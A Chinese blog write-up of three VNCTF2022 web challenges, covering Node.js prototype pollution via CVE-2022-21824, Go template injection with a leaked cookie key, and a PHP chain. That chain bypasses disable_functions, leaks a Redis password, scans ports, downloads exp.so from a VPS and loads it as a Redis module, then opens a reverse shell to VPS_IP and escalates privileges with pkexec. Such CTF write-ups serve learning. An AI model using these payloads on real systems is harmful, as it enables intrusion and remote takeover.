


Game V4.0
在data.js中可以找到flag
Newcalc0
知识点
- Nodejs代码阅读
- CVE-2022-21824原型链污染
分析
进入题目，点击查看源代码
const express = require("express");
const path = require("path");
const vm2 = require("vm2");
const app = express();
app.use(express.urlencoded({ extended: true }));
app.use(express.json());
app.use(express.static("static"));
const vm = new vm2.NodeVM();
app.use("/eval", (req, res) => {
const e = req.body.e;
if (!e) {
res.send("wrong?");
return;
}
try {
res.send(vm.run("module.exports="+e)?.toString() ?? "no");
} catch (e) {
console.log(e)
res.send("wrong?");
}
});
app.use("/flag", (req, res) => {
if(Object.keys(Object.prototype).length > 0) {
Object.keys(Object.prototype).forEach(k => delete Object.prototype[k]);
res.send(process.env.FLAG);
} else {
res.send(Object.keys(Object.prototype));
}
})
app.use("/source", (req, res) => {
let p = req.query.path || "/src/index.js";
p = path.join(path.resolve("."), path.resolve(p));
console.log(p);
res.sendFile(p);
});
app.use((err, req, res, next) => {
console.log(err)
res.redirect("index.html");
});
app.listen(process.env.PORT || 8888);题目既然提示了package.json，我们通过代码审计发现可以通过/source路由访问文件
同样可以通过将镜像下载到本地，知道了package.json文件的位置url/source?path=/package.json
明白了node的版本是14.10.1,我们查看CVE的影响版本
只允许将空字符串分配给对象原型的数字键。
验证这个漏洞原理
直接使用console.table([{}], "__proto__");会产生错误，但是提示的这个错误也证明了Object.prototype[0]为 ,正常的为undefined
我们使用try-catch进行异常处理
console.log(Object.prototype[0]);
console.log("------------------");
try{
console.table([{}], ["__proto__"]);
} catch(e){
if(Object.keys(Object.prototype).length > 0){
console.log("绕过了if判断语句");
console.log("污染后Object.prototype[0]的值为" + Object.prototype[0]);
}
}我们接下来看/flag路由的代码
app.use("/flag", (req, res) => {
if(Object.keys(Object.prototype).length > 0) {
Object.keys(Object.prototype).forEach(k => delete Object.prototype[k]);
res.send(process.env.FLAG);
} else {
res.send(Object.keys(Object.prototype));
}
})我们就可以通过console.table进行污染绕过if语句得到环境变量中的FLAG
访问/flag路由，绕过if语句
Gocalc0
知识点
- SSTI
分析
SSTI获取源码
package main
import (
_ "embed"
"fmt"
"os"
"reflect"
"strings"
"text/template"
"github.com/gin-contrib/sessions"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-gonic/gin"
"github.com/maja42/goval"
)
//go:embed template/index.html
var tpl string
//go:embed main.go
var source string
type Eval struct {
E string `json:"e" form:"e" binding:"required"`
}
func (e Eval) Result() (string, error) {
eval := goval.NewEvaluator()
result, err := eval.Evaluate(e.E, nil, nil)
if err != nil {
return "", err
}
t := reflect.ValueOf(result).Type().Kind()
if t == reflect.Int {
return fmt.Sprintf("%d", result.(int)), nil
} else if t == reflect.String {
return result.(string), nil
} else {
return "", fmt.Errorf("not valid type")
}
}
func (e Eval) String() string {
res, err := e.Result()
if err != nil {
fmt.Println(err)
res = "invalid"
}
return fmt.Sprintf("%s = %s", e.E, res)
}
func render(c *gin.Context) {
session := sessions.Default(c)
var his string
if session.Get("history") == nil {
his = ""
} else {
his = session.Get("history").(string)
}
fmt.Println(strings.ReplaceAll(tpl, "{{result}}", his))
t, err := template.New("index").Parse(strings.ReplaceAll(tpl, "{{result}}", his))
if err != nil {
fmt.Println(err)
c.String(500, "internal error")
return
}
if err := t.Execute(c.Writer, map[string]string{
"s0uR3e": source,
}); err != nil {
fmt.Println(err)
}
}
func main() {
port := os.Getenv("PORT")
if port == "" {
port = "8080"
}
r := gin.Default()
store := cookie.NewStore([]byte("woW_you-g0t_sourcE_co6e"))
r.Use(sessions.Sessions("session", store))
r.GET("/", func(c *gin.Context) {
render(c)
})
r.GET("/flag", func(c *gin.Context) {
session := sessions.Default(c)
session.Set("FLAG", os.Getenv("FLAG"))
session.Save()
c.String(200, "flag is in your session")
})
r.POST("/", func(c *gin.Context) {
session := sessions.Default(c)
var his string
if session.Get("history") == nil {
his = ""
} else {
his = session.Get("history").(string)
}
eval := Eval{}
if err := c.ShouldBind(&eval); err == nil {
his = his + eval.String() + "<br/>"
}
session.Set("history", his)
session.Save()
render(c)
})
r.Run(fmt.Sprintf(":%s", port))
}在本地搭建
package main
import (
_ "embed"
"fmt"
"os"
"github.com/gin-contrib/sessions"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-gonic/gin"
)
func main() {
port := os.Getenv("PORT")
if port == "" {
port = "8080"
}
r := gin.Default()
store := cookie.NewStore([]byte("woW_you-g0t_sourcE_co6e"))
r.Use(sessions.Sessions("session", store))
r.GET("/", func(c *gin.Context) {
session := sessions.Default(c)
println(session.Get("FLAG").(string))
})
r.Run(fmt.Sprintf(":%s", port))
}将得到的cookie添加进去
Interesting PHP
知识点
- phpinfo()绕过
ini_get_all(), get_cfg_var("disable_functions"), get_cfg_var("open_basedir") - redis备份文件泄露
- 端口探测
- SUID提权 pkexec提权POC
分析
映入眼帘的是一个RCE
但是使用phpinfo()发现被禁掉了
使用其他方法查看disable_functions中的内容(ini_get_all())

[disable_functions] => Array ( [global_value] => include,include_once,require,require_once,stream_get_contents,fwrite,readfile,file_get_contents,fread,fgets,fgetss,file,parse_ini_file,show_source,fsockopen,proc_open,ini_set,pfsockopen,ini_alter,ini_get,posix_kill,phpinfo,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,passthru,symlink,link,syslog,imap_open,dl,mail,stream_socket_client,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive,get_cfg_var
[local_value] => include,include_once,require,require_once,stream_get_contents,fwrite,readfile,file_get_contents,fread,fgets,fgetss,file,parse_ini_file,show_source,fsockopen,proc_open,ini_set,pfsockopen,ini_alter,ini_get,posix_kill,phpinfo,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,passthru,symlink,link,syslog,imap_open,dl,mail,stream_socket_client,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive,get_cfg_var查看当前目录的文件
看名字知道secret.rdb是备份文件泄露
下载文件，查看内容
所以redis的key是：ye_w4nt_a_girlfri3nd
然后查找redis服务对应的端口
- 使用curl探测
import requests
url = "http://efa0bd4c-40fb-4988-b6e3-15a5486d9aff.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {
"content-type": "application/x-www-form-urlencoded"
}
payload = """
function Curl($url) {
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$result = curl_exec($ch);
if ($result != ''){
echo $result.$url;
}
}
for($i = 0; $i < 9999; $i++){
Curl("dict://127.0.0.1:$i/");
}
"""
data = {
0: payload
}
res = requests.post(url, data=data, headers=headers).text
print(res)开放了端口80和8888
- 利用
file_put_contents上传文件，通过stream_socket_server()函数来探测端口
//上传php代码为。1.php
<?php
highlight_file(__FILE__);
for($i = 0; $i < 99999; $i++){
$tcp = stream_socket_server("tcp://0.0.0.0:".$i, $errno, $errstr);
if($errstr === "Address already in use") {
var_dump($i);
}
}
?>
同样可以发现开放了80和8888端口
通常可以通过蚁剑等工具连接redis实现主从复制RCE，但是他利用的是stream_get_contents()函数，被禁掉了的
我们可以写入so文件，通过curl加载so文件
import requests
url = "http://efa0bd4c-40fb-4988-b6e3-15a5486d9aff.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {
"content-type": "application/x-www-form-urlencoded"
}
so_file_url = "http://vps/exp.so"
payload = """
function Curl($url){
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$result = curl_exec($ch);
curl_close($ch);
file_put_contents("exp.so", $result);
}
Curl("''' + so_file_url + '''");
""".strip()
data = {
0: payload
}
res = requests.post(url, data=data, headers=headers).text
print(res)然后通过构造反弹shell的payload
$redis = new Redis();
$redis->connect('127.0.0.1',8888);
$redis->auth('ye_w4nt_a_gir1fri3nd');
$redis->rawCommand('module','load','/var/www/html/exp.so');
$redis->rawCommand("system.exec","bash -c 'exec bash -i &>/dev/tcp/VPS_IP/PORT <&1'");反弹成功后没有权限读取flag文件
使用pkexec提权漏洞[https://github.com/arthepsy/CVE-2021-4034]
进而读取flag


- Post link: https://roboterh.github.io/2022/02/24/VNCTF2022-web%E5%A4%8D%E7%8E%B0/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.